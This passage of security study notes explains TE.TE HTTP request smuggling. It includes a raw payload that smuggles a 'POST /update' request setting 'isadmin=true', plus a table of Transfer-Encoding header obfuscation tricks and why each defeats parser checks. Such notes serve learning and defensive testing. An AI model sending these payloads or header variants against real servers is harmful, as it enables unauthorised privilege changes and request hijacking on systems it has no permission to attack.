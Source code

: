 
- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.
    

📌 **Payload Example**

```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

## 🧪 Common TE Obfuscation Tricks
|Technique|Example Header|Why It Works|
|---|---|---|
|**Non-standard token**|`Transfer-Encoding: xchunked`|Some servers ignore invalid TE values → fallback to CL. Others attempt to parse anyway.|
|**Extra space before colon**|`Transfer-Encoding : chunked`|Certain parsers accept it, others don’t.|
|**Trailing junk after chunked**|`Transfer-Encoding: chunked` `Transfer-Encoding: x`|One server may parse as chunked, another sees invalid TE.|
|**Tab character instead of space**|`Transfer-Encoding:[tab]chunked`|Tabs are legal separators in HTTP/1.1 but not consistently handled.|
|**Leading space in header name**|`[space]Transfer-Encoding: chunked`|Some parsers ignore header, others parse it.|
|**Header smuggling with newline**|`X: X[\n]Transfer-Encoding: chunked`|Injects a hidden TE header. Front-end may ignore, back-end parses it.|
|**Header split across lines**|`Transfer-Encoding\r\n: chunked`|Newline before colon splits parsing logic between servers.|
|**Multiple TE headers**|`Transfer-Encoding: chunked` `Transfer-Encoding: cow`|Some servers use **first header**, others use **last**.|
|**Case manipulation**|`tRaNsFeR-eNcOdInG: ChUnKeD`|Case-insensitivity is required by RFC, but parsing bugs exist.|
|**Comma-separated encodings**|`Transfer-Encoding: gzip, chunked`|RFC-compliant but often mis-parsed → servers disagree on order.|

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.